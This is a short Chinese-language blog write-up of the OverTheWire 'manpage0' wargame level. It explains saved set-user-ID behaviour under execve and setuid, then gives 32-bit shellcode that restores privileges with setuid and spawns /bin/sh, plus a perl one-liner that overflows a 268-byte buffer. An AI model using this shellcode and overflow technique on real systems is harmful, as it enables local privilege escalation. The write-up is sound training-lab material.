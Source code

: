 ```yaml
---
title: manpage0
author: rk700
layout: post
categories:
  - writeup
tags:
  - OverTheWire
  - exploit
---
```

有2点：

1.  execve，如果ST_NOSUID没有设的话，新执行的程序的rid不变，eid会变如果suid设了，saved suid也会被保存为eid，这样我们就可以在之后用setuid来恢复
2.  setuid如果权限够了(root?)，就把2个id都设了；否则只设eid，rid和saved suid不变

于是还是溢出，不过shellcode中要先恢复权限 

{% highlight nasm %}
BITS 32
;setuid
xor ebx, ebx 
mov bx, 17001
xor eax, eax 
mov al, 23
int 0x80

xor eax, eax 
push eax 
mov edx, esp 
push 0x68732f2f
push 0x6e69622f ;/bin//sh
mov ebx, esp 
push eax 
push ebx 
mov ecx, esp 
mov al, 11
int 0x80
{% endhighlight %}

dest和返回地址距离是256+8+4=268，于是

<pre>$ /manpage/manpage0 `perl -e 'print "A"x268 . "\xd8\xd8\xff\xff"'`</pre>